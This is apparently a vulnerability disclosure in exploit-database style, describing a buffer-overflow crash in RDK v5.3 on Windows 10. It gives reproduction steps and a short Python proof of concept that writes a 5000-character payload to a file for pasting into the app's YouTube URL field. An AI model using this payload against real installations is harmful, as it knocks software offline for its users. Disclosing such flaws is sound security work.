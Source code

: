```yaml
---
layout: post
title: RDK v5.3 - Buffer Overflow (DoS)
date: 2024-04-17
category: exploit
---
```


# Exploit Title: RDK v5.3 - Buffer Overflow (DoS)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 17.04.2024
# Vendor Homepage: [http://www.shenturk.com](http://www.shenturk.com)
# Software Link: [http://www.shenturk.com/downloads/rdk-5.3-setup.rar](http://www.shenturk.com/downloads/rdk-5.3-setup.rar)
# Tested Version: v5.3 (latest)
# Tested on: Windows 10 32bit

### Steps to Reproduce

1. Open the RDK application.
2. Click on the “Plus” button.
3. Select **YouTube**.
4. Copy the contents of `poc.txt` and paste it into the “YouTube URL” field.
5. Click **Tamam** to confirm.
6. Locate the payload from the list and double-click it.
7. The application should crash.

### Proof of Concept (PoC)

The following script creates a `poc.txt` file containing a payload that causes a buffer overflow in RDK v5.3.

```python
#!/usr/bin/env python3

exploit = 'A' * 5000

try:
    with open("poc.txt", "w") as file:
        file.write(exploit)
    print("POC is created")
except Exception as e:
    print("POC not created:", e)
